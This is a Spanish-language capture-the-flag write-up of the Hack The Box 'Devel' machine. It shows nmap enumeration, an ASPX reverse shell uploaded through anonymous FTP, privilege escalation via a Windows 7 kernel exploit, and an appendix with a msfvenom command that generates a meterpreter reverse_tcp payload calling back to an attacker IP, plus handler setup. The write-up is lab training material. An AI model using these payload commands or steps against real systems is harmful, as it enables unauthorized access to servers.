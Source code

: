 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Devel es una maquina windows que se explota mediante un servicio FTP que tiene subida arbitraria de archivos, por medio de esta debilidad, se logra establecer una conexión al equipo victima y ejecutar comandos, luego se logra escalar privilegios por medio de un exploit conocido basado en la versión del sistema operativo."
date: 2021-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-devel/devel-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - ftp
  - windows
  - arbitrary file upload
---
```


![](/assets/images/htb-writeup-devel/devel-logo.png)


Esta es una maquina de nivel facil segun hack the box, donde por medio de un servicio FTP se logra subir archivos que permiten ganar acceso al sistema.

## Enumeración
vamos a comenzar enumerando el sistema con nmap para descubrir puertos y servicios corriendo en dichos puertos

```
nmap -sC -sV 10.10.10.5
```

el escaneo de nmap nos reporta los puertos 21(ftp) y 80(http) abiertos

```
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

nmap fue capaz de identificar que el puerto 21 permite logearse con el usuario "Anonymous", el cual no se necesita contraseña para ingresar. 

# Acceso y explotación

Nos conectamos al servicio FTP
```
ftp 10.10.10.5
```
y observamos 3 archivos
![](/assets/images/htb-writeup-devel/devel1.png)

Si navegamos por el puerto 80, veremos la imagen clasica del servicio IIS de windows, sin embargo, al entrar al servicio FTP está la misma imagen (welcome.png) que nos muestra mediante el puerto 80. Por lo que una vía pontencial de explotación es intentar subir una reverse shell.

Buscando en internet "aspx reverse shell github" encontramos una que nos sirve
![](/assets/images/htb-writeup-devel/devel2.png)

por lo que la descargamos en nuestra maquina de atacante 
![](/assets/images/htb-writeup-devel/devel3.png)

y cambiamos la IP y puerto local a la que nos queremos conectar.
![](/assets/images/htb-writeup-devel/devel6.png)

ahora, nos conectamos al servicio FTP (FTP IP-VICTIMA) y ejecutamos el siguiente comando para subir nuestra shell que acabamos de descargar
```
put shell.aspx
```

una vez subida, nos tendremos que poner en escucha con netcat
![](/assets/images/htb-writeup-devel/devel7.png)

y ejecutamos el archivo que subimos desde la web
![](/assets/images/htb-writeup-devel/devel5.png)

y ya logramos ganar acceso al sistema
![](/assets/images/htb-writeup-devel/devel4.png)


# Escalación de privilegios
Una vez ganado acceso el sistema, podemos ver ante que SO nos estamos enfrentando, con el comando
```
systeminfo
```

Según la información del SO, estamos ante un Windows 7 6.1.7600
![](/assets/images/htb-writeup-devel/devel8.png)

buscando en internet un exploit para esta versión, encontramos uno, asi que vamos a probarlo 
![](/assets/images/htb-writeup-devel/devel9.png)

Para ejecutar este exploit, primero necesita ser compilado, en caso de que no tengas la utilidad *mingw-w64* (la cual sirve para compilar exploits de windows en linux) puedes instalarla con el siguiente comando
```
sudo apt-get install mingw-w64
```

ahora solo queda subir el exploit mediante FTP y ejecutarlo en la maquina victima. Nota: cuando ingresemos por FTP, debemos ejecutar el comando "binary" dado que se suelen perder datos de archivos al subirlo, con este comando hacemos que se suba intacto.
![](/assets/images/htb-writeup-devel/devel10.png)

una vez subido, nos dirigimos a la ruta C:\inetpub\wwwroot y ejecutamos el exploit que acabamos de subir, y nos convertimos en el usuario **nt authority\system**
![](/assets/images/htb-writeup-devel/devel11.png)




# Anexos

## shell con metasploit
creamos el payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.6 lport=4444 -f aspx -o shell.aspx
```

nos ponemos en escucha
1. ```msfconsole```
2. ```use exploit/multi/handler```
3. ```set payload windows/meterpreter/reverse_tcp```
4. ```set lhost 10.10.16.6```
5. ```set lport 1234```
6. ```run```


## Pseudo consola para ejecución de comandos
Parrot y Kali linux traen una pseudo consola para en lenguaje aspx que nos permite ejecutar comandos, para encontrla podemos escribir el siguiente comando
```
locate cmdasp.aspx
```

este archivo lo subimos mediante FTP y tendremos ejecución de comandos, para luego establecer una reverse shell a nuestro equipo.
